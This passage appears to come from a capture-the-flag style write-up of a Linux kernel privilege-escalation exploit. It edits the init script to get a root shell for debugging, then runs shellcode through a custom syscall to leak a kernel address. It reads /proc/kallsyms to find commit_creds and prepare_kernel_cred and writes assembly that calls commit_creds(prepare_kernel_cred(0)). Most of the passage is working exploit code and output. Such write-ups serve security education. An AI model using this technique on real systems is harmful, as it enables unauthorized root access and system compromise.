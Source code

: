To do this, modify fs/init to say  
`setsid cttyhack setuidgid 0 sh`

Instead of  
`setsid cttyhack setuidgid 1000 sh`

Next, write the shellcode to retrieve the return address -  

```
mov rax, [rsp];
ret;
```

is "\x48\x8B\x04\x24\xC3"

```
#include <stdio.h>
#include <unistd.h>

void main() {

    char mald[] = "\x48\x8B\x04\x24\xC3";
    // mov rax, [rsp];
    // ret;

    long ret = syscall(548, mald, sizeof(mald));
    
    printf("return value: %p\n", ret);

}
```

and run it  

we get  
`return value: 0xffffffff85a79e72`

Now, read /proc/kallsyms to find the addresses of the two functions we want to call -  
```
cat /proc/kallsyms | grep commit_creds
cat /proc/kallsyms | grep prepare_kernel_cred
```
```
ffffffff85a8ac70 T commit_creds
ffffffff85a8af10 T prepare_kernel_cred
```

so, the offsets (relative to the return address) are  
```
+0x10dfe to commit_creds
+0x1109e to prepare_kernel_cred
```

Now that we know the offsets,  
we can write assembly to call `commit_creds(prepare_kernel_creds(0))`  

```
mov rax, [rsp];
add rax, 0x1109e;

xor rdi, rdi;
call rax;

mov rdi, rax;
mov rax, [rsp];
add rax, 0x10dfe;
call rax;

ret;
```
